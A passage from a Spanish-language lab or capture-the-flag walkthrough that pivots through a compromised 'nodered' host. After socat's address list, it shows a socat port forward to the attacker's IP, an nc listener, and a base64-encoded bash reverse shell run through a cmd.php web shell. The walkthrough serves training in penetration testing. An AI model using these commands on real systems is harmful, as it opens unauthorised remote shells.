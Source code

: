 ```abap
      tcp6-connect:<host>:<port>	groups=FD,SOCKET,CHILD,RETRY,IP6,TCP
      tcp6-listen:<port>	groups=FD,SOCKET,LISTEN,CHILD,RETRY,RANGE,IP6,TCP
      udp-connect:<host>:<port>	groups=FD,SOCKET,IP4,IP6,UDP
      udp-datagram:<host>:<port>	groups=FD,SOCKET,RANGE,IP4,IP6,UDP
      udp-listen:<port>	groups=FD,SOCKET,LISTEN,CHILD,RANGE,IP4,IP6,UDP
      udp-recv:<port>	groups=FD,SOCKET,RANGE,IP4,IP6,UDP
      udp-recvfrom:<port>	groups=FD,SOCKET,CHILD,RANGE,IP4,IP6,UDP
      udp-sendto:<host>:<port>	groups=FD,SOCKET,IP4,IP6,UDP
      udp4-connect:<host>:<port>	groups=FD,SOCKET,IP4,UDP
      udp4-datagram:<remote-address>:<port>	groups=FD,SOCKET,RANGE,IP4,UDP
      udp4-listen:<port>	groups=FD,SOCKET,LISTEN,CHILD,RANGE,IP4,UDP
      udp4-recv:<port>	groups=FD,SOCKET,RANGE,IP4,UDP
      udp4-recvfrom:<host>:<port>	groups=FD,SOCKET,CHILD,RANGE,IP4,UDP
      udp4-sendto:<host>:<port>	groups=FD,SOCKET,IP4,UDP
      udp6-connect:<host>:<port>	groups=FD,SOCKET,IP6,UDP
      udp6-datagram:<host>:<port>	groups=FD,SOCKET,RANGE,IP6,UDP
      udp6-listen:<port>	groups=FD,SOCKET,LISTEN,CHILD,RANGE,IP6,UDP
      udp6-recv:<port>	groups=FD,SOCKET,RANGE,IP6,UDP
      udp6-recvfrom:<port>	groups=FD,SOCKET,CHILD,RANGE,IP6,UDP
      udp6-sendto:<host>:<port>	groups=FD,SOCKET,IP6,UDP
      unix-client:<filename>	groups=FD,SOCKET,NAMED,RETRY,UNIX
      unix-connect:<filename>	groups=FD,SOCKET,NAMED,RETRY,UNIX
      unix-listen:<filename>	groups=FD,SOCKET,NAMED,LISTEN,CHILD,RETRY,UNIX
      unix-recv:<filename>	groups=FD,SOCKET,NAMED,RETRY,UNIX
      unix-recvfrom:<filename>	groups=FD,SOCKET,NAMED,CHILD,RETRY,UNIX
      unix-sendto:<filename>	groups=FD,SOCKET,NAMED,RETRY,UNIX
```

### Lo que debemos hacer es con socat, crearnos un port forwarding en la máquina nodered, que nos lleve a nuestra máquina de atacante de la siguiente manera

```abap
root@nodered:/tmp# ./socat TCP-LISTEN:4444,fork tcp:10.10.14.118:4445 &
[1] 93
root@nodered:/tmp#
```

### Ya que tenemos esta máquina escuchando, lo que debemos hacer es poner nuestra máquina de atacante a la escucha en el puerto 4445 que es el que escogimos para este port forwarding

```abap
┌─[✗]─[root@parrot]─[/mnt/angussMoody/Scripts/Static/linux]
└──╼ #nc -nlvp 4445
listening on [any] 4445 ...
```

### Ahora debemos buscar la forma de que nos reciba una Reverse Shell en la ejecución de comandos que tenemos con el cmd.php echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE3Mi4xOS4wLjQvNDQ0NCAwPiYx | base64 -d | bash Vamos a realizar el mismo procedimiento que realizamos con Node-red, nos creamos una Reverse Shell en bash y la pasamos a base64
